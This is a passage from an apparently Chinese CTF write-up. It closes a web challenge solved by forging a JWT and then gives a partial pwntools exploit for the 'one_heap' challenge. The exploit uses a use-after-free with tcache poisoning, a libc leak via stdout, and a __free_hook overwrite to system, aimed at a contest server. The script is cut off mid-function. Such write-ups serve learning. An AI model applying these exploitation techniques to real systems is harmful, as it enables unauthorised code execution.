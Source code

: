 

然后直接伪造jwt就可以了，有了key直接去那个神奇的网站就行了。最终在cookie中读出flag



## PWN

### one_heap



漏洞点free后指针未清0

首先爆破heap地址，攻击tcache。然后在tcache上爆破stdout地址用来泄露libc。最后将free hook改成system

```python
from PwnContext import *
if __name__ == '__main__':
    context.terminal = ['tmux', 'split', '-h']
    #-----function for quick script-----#
    s       = lambda data               :ctx.send(str(data))        #in case that data is a int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    st      = lambda delim,data         :ctx.sendthen(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data))
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    leak    = lambda address, count=0   :ctx.leak(address, count)
    
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))

    debugg = 0
    logg = 0

    ctx.binary = './one_heap'

    ctx.symbols = {'ptr':0x202050}
    #ctx.custom_lib_dir = '/glibc/x64/2.26/lib/'
    #ctx.debug_remote_libc = True
    #ctx.debug()

    while 1:
        try:
            if debugg:
                rs()
            else:
                ctx.remote = ('47.104.89.129', 10001)
                rs(method = 'remote')

            if logg:
                context.log_level = 'debug'

            def choice(num):
                sla('choice:',num)

            def add(asize,acon):
                choice(1)
                sla('size:',asize)
                if len(acon) < asize:
                    sla('content:',acon)
                else:
                    sa('content:',acon)
```